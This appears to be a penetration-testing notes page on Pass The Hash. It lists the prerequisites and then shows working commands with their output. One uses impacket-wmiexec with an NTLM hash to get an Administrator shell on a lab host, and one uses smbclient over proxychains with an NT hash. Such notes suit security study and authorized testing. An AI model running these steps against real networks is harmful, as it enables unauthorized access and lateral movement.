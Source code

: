 ```yaml
---
description: >-
  Pass The Hash allows an attacker to authenticate with an NTLM hash instead of
  using the plaintext password of a user.
---
```


# Pass The Hash



## Prerequisites

<mark style="color:red;">**NOTE:**</mark> this will not work for Kerberos authentication but only for servers or services using NTLM authentication

* Requires the admin share called **ADMIN$** to be available.
* Requires an SMB connection through the firewall (port 445)

## Lateral Movement - Impacket

```shell-session
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```



## Smbclient

```shell-session
kali@kali$ proxychains smbclient //10.10.139.140/Users -U jane --pw-nt-hash e728ecbadfb02f51ce8eed753f3ff3fd
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.139.140:445-<><>-OK
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Mar 25 10:53:45 2022
  ..                                 DR        0  Fri Mar 25 10:53:45 2022
  Default                           DHR        0  Fri Mar 25 10:52:22 2022
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018

                10328063 blocks of size 4096. 5797491 blocks available

```
